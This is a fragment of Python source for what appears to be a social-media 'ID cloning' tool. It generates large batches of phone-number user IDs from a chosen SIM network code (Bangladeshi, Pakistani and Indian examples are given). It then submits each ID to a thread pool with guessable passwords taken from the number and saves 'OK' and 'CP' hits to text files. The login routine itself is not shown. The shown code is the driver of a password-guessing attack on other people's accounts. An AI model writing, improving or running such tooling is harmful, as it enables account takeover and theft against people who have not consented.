     print(f"          \x1b[97m\033[37;41m[ I D S    L I M I T   M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    limit = int(input('\033[1;97m[+]\033[1;92m EXAMPLE \033[1;91m: \033[1;96m2000, 3000, 50000, 100000\n\033[1;97m====================================================\n\033[1;97m[+]\033[1;92m PUT IDS LIMIT \033[1;91m: \033[1;96m'))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as manshera:    
        clear()
        tl = str(len(user))
        print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
        print('\033[1;97m====================================================') 
        print(f"\033[1;97m[+]\033[1;92m USER NAME\033[1;91m                :\033[1;96m "+NameX)
        print(f"\033[1;97m[+]\033[1;92m SIM NETWORK CODE YOU PUT\033[1;91m : \033[1;96m"+code)
        print(f"\033[1;97m[+]\033[1;92m TOTAL IDZ\033[1;91m                : \033[1;96m["+tl+"] ")
        print('\033[1;97m[+]\033[1;92m PASSWORD METHOD\033[1;91m          : \033[1;96m2') 
        print('\033[1;97m====================================================') 
        print(' \033[1;32mPLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        print('\033[1;97m====================================================') 
        for love in user:
            uid = code+love
            pwx = [love,uid]
            manshera.submit(freeq,uid,pwx,tl)
    print('')
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m CLONING COMPLETED\n\033[1;97m[√] \033[1;92mYOUR OK IDS \033[1;91m: \033[1;96m'+str(len(ok))+'\n\033[1;97m[+]\033[1;92m TOTAL CP IDS \033[1;91m: \033[1;96m'+str(len(cp)))
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m OK IDS SAVE \033[1;91m: \033[1;96m/sdcard/OK.txt\n\033[1;97m[+]\033[1;92m CP IDS SAVE \033[1;91m: \033[1;96m/sdcard/CP.txt')
    input(f'\033[1;97m[+]\033[1;92m PRESS ENTER TO BACK MENU');os.system("clear");main()
    
def pass3():
    os.system("clear")
    print(logo)
    clear()
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"  \x1b[97m\033[37;41m[ S I M    N E T W O R K    C O D E    M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f"\t        \x1b[97m\033[37;41m[ EXAMPLE👇]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f'\033[1;97m[!] \033[1;92mBD SIM CODES  \033[1;91m: \033[1;96m88017, 88019, 88018, 88016')
    print(f'\033[1;97m[!] \033[1;92mPAK SIM CODES \033[1;91m: \033[1;96m0303, 0302, 0301, 0305')
    print(f'\033[1;97m[!] \033[1;92mIND SIM CODES \033[1;91m: \033[1;96m91930, 91778, 91712 , 91902  ')
    print('\033[1;97m====================================================') 
    print(f"\x1b[97m\033[37;41m BEST CODE FOR PAK [0300 / 0302 / 0306 / 0349 /0315]\033[0;m")
    print('\033[1;97m====================================================') 
    code = input('\033[1;37m[\033[1;31m!\033[1;37m]\033[1;32m PUT SIM NETWORK CODE \033[1;37m: \033[1;36m')
    os.system("clear")
    print(logo)
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"          \x1b[97m\033[37;41m[ I D S    L I M I T   M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    limit = int(input('\033[1;97m[+]\033[1;92m EXAMPLE \033[1;91m: \033[1;96m2000, 3000, 50000, 100000\n\033[1;97m====================================================\n\033[1;97m[+]\033[1;92m PUT IDS LIMIT \033[1;91m: \033[1;96m'))